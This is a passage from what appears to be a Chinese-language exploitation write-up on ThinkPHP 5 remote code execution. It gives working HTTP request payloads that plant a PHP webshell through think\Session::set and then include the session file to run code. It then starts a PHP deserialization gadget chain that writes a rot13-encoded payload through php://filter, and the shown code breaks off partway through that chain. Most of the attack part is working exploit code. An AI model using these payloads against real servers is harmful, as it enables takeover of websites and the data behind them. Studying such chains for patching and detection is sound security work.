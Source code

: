 thinkphp5 中存在一个名为 think\Session::set 的方法，通过该方法，我们可以任意参考 session 中存储的内容。此外，thinkphp5 还存在名为 think__include_file ，通过该方法，我们可以实现任意文件包含的效果。结合这两个函数，我们可以获取到系统 shell ，我们的攻击载荷如下：

session 操纵攻击载荷：

```text
_method=__construct&method=get&filter[]=think\Session::set&get[]=<?php eval($_POST['x'])?>
```

文件包含攻击载荷：

```text
_method=__construct&method=get&filter[]=think\__include_file&get[]=/tmp/sess_test&x=phpinfo();
```


我们可以成功执行phpinfo。

![img](https://pic1.zhimg.com/v2-894c50290a0430f965afa2a4dd1de8d8_b.jpg)

**2.thinkphp5 反序列化**

除了上述的方法外，我们还可以利用 thinkphp5 的反序列化的利用链来实现 rce 。该 thinkphp5 的利用链构造可以参考如下链接：

```text
https://www.anquanke.com/post/id/196364
```

经过一段时间的调试，构造反序列化链的载荷如下所示：

```php
<?php
$i = new think\cache\driver\File();
$reflectionClass_6 = new ReflectionClass('think\cache\driver\File');
$reflectionProperty_6 = $reflectionClass_6->getProperty('tag');
$reflectionProperty_6->setAccessible(true);
$reflectionProperty_6->setValue($i,'admin');
$reflectionClass_6_2 = new ReflectionClass('think\cache\driver\File');
$reflectionProperty_6_2 = $reflectionClass_6->getProperty('options');
$reflectionProperty_6_2->setAccessible(true);
$reflectionProperty_6_2->setValue($i,array('path'=>'php://filter/write=string.rot13/resource=./<?cuc cucvasb();?>','cache_subdir'=>'','expire' => 0,'prefix' => '','data_compress' => false));

$h = new think\session\driver\Memcached();
$reflectionClass_5 = new ReflectionClass('think\session\driver\Memcached');
$reflectionProperty_5 = $reflectionClass_5->getProperty('handler');
$reflectionProperty_5->setAccessible(true);
$reflectionProperty_5->setValue($h,$i);

$g = new think\console\Output();
$reflectionClass_4 = new ReflectionClass('think\console\Output');
$reflectionProperty_4 = $reflectionClass_4->getProperty('styles');
$reflectionProperty_4->setAccessible(true);
$reflectionProperty_4->setValue($g,['getAttr']);
$reflectionProperty_4_2 = $reflectionClass_4->getProperty('handle');
$reflectionProperty_4_2->setAccessible(true);
$reflectionProperty_4_2->setValue($g,$h);

$f = new think\Model\Pivot();
$d = new think\model\relation\HasOne($f,$f,3,4,5);
$reflectionClass_3 = new ReflectionClass('think\model\relation\HasOne');
$reflectionProperty_3 = $reflectionClass_3->getProperty('bindAttr');
$reflectionProperty_3->setAccessible(true);
$reflectionProperty_3->setValue($d,array('a'=>'b'));
$reflectionProperty_3_2 = $reflectionClass_3->getProperty('model');
$reflectionProperty_3_2->setAccessible(true);
$reflectionProperty_3_2->setValue($d,'think\console\Output');

$c = new think\Model\Pivot();
$reflectionClass_2 = new ReflectionClass('think\Model\Pivot');
```